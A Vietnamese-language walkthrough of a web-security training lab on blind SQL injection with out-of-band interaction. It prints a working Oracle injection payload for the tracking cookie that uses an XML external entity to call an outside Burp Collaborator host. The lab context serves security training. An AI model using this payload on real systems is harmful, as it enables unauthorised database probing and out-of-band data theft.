


# WEB
*Lab: Blind SQL injection with out-of-band interaction*
## Tóm tắt
Challenge chứa một lỗ hổng Blind SQL injection. Ứng dụng sử dụng cookie theo dõi để phân tích và thực hiện một truy vấn SQL chứa giá trị của cookie đã gửi. Truy vấn SQL được thực thi không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, bạn có thể kích hoạt các tương tác ngoài băng thông với một tên miền bên ngoài. 
## Khai thác
1. Thay đổi TrackingID để kích hoạt đến một subdomain bên ngoài
- Thêm vào TrackingID trong request từ client payload:
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//<your_subdomain/">+%25remote%3b]>'),'/l')+FROM+dual--
- Với your_subdomain được lấy từ Burpsuite --> Collaborator --> Copy to clipboard
- Ở ví dụ này, subdomain lấy được từ Collaborator là tlicwtg3nq7jcvocgi518slc339uxkl9.oastify.com

- Và khi send request với TrackingID thay đổi như trên, bài lab đã được giải thành công chứng tỏ đã injection thành công, mở Burp Collaborator ta thấy các callbacks hiển thị

